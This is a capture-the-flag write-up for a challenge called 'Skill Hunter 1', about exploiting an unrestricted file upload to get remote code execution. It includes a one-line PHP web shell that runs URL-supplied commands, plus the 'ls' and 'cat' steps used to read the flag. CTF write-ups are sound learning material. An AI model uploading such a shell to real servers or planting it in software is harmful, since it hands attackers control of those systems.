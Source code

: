 # SKILL HUNTER 1

## Write-up

first when we visit the website we can see the upload functionality as the main and only functionality in the website . need a hint? `click here` will lead you to the hint page . There you will discover leet words saying `upload vulnerability` if you search with these words on google you will discover various exploits of the upload functionality. one of these exploit is to get a remote code execution `rce`. One of the great website that explain web exploitation is 'portswigger' there you will find a section talking about this explotation as its showen in the img 
![exploit](./images/portswigger.png)
## Exploit
 as showen in the img above the structure of our exploit will be as follow 
1. Upload a file with the extention `.php` with following content 
```php 
<?php echo system($_GET['command']); ?>
```
2. Once the file uploaded we get the answer from the server indicating its path, click on it and it will open the file for us 

an error will pop on the screen telling you that the request is messing the parameter `command` 
you only need to add `?command={your command} ` in the url to pass it as parameter to get passed to your php code and get executed
 
pass any command in `cmd` URL parameter and the command gets excuted
![exploit](./images/screen.png)

list the files using `ls /` to find the `flag.txt` within the root directory
then read it with `cat flag.txt` and you will get the FLAG!!